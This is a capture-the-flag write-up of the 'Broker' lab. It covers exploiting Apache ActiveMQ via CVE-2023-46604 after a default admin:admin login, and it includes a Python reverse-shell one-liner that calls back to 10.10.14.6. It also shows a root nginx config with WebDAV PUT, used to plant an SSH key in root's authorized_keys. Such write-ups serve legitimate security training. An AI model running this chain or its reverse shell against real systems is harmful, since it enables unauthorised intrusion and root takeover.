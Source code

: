 # Broker – ActiveMQ Exploitation and Privilege Escalation

**Target:** `broker` (CTF Room)
**Goal:** Exploit Apache ActiveMQ (CVE-2023-46604) for RCE, escalate privileges to root via misconfigured `nginx` sudo access.


## 1. Reconnaissance

Performed a full TCP port and service scan:

**nmap -p- -sV -T4 -oN full.nmap <target-ip>**

Open ports:

* **8161** – Apache ActiveMQ Web Console
* **61616** – OpenWire protocol (used by ActiveMQ clients)

---

## 2. Gaining Access via Apache ActiveMQ (RCE)

Checked for an exposed web interface:

**curl http\://target-ip:8161/**

Tested default login credentials:

**admin\:admin** → Success

Identified the version as vulnerable to **CVE-2023-46604**.

Cloned the exploit:

**git clone [https://github.com/zeze-zeze/CVE-2023-46604](https://github.com/zeze-zeze/CVE-2023-46604)**
**cd CVE-2023-46604**

Ran the exploit:

**python3 exploit.py -i <target-ip> -p 61616 -si <your-ip> -sp 8080**

> Result: Semi-interactive pseudo-shell as `activemq` user.

---

## 3. Reverse Shell Upgrade

Set up a listener:

**nc -lvnp 4444**

Triggered a reverse shell from the pseudo-shell:

**python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("10.10.14.6",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);subprocess.call(\["/bin/bash"])'**

> Result: Full interactive shell as `activemq`.

---

## 4. Privilege Escalation via NGINX

Checked sudo permissions:

**sudo -l**

Found:

**(ALL : ALL) NOPASSWD: /usr/sbin/nginx**

Created a malicious NGINX configuration:

**/tmp/nginx\_pwn.conf**

```
user root;
worker_processes 1;
pid /tmp/nginx.pid;
events {
    worker_connections 1024;
}
http {
    server {
        listen 8088;
        root /;
        autoindex on;
        dav_methods PUT;
    }
}
```

Started NGINX as root:

**sudo /usr/sbin/nginx -c /tmp/nginx\_pwn.conf**

---

## 5. Gaining Root via SSH

Generated an SSH key:

**ssh-keygen -t rsa -f /tmp/root\_key -N ""**

Uploaded the public key to root's authorized\_keys:

**curl -X PUT --data-binary "@/tmp/root\_key.pub" [http://127.0.0.1:8088/root/.ssh/authorized\_keys](http://127.0.0.1:8088/root/.ssh/authorized_keys)**

Set permissions and connected:

**chmod 600 /tmp/root\_key**
**ssh -i /tmp/root\_key root@<target-ip>**

> Result: Root shell obtained.

---

## 🔢 Outcome

* **Initial Access:** RCE using CVE-2023-46604
* **Shell:** Reverse shell via Python
* **Privilege Escalation:** Sudo access to nginx and file upload trick
* **Final Access:** Root via SSH key injection

---
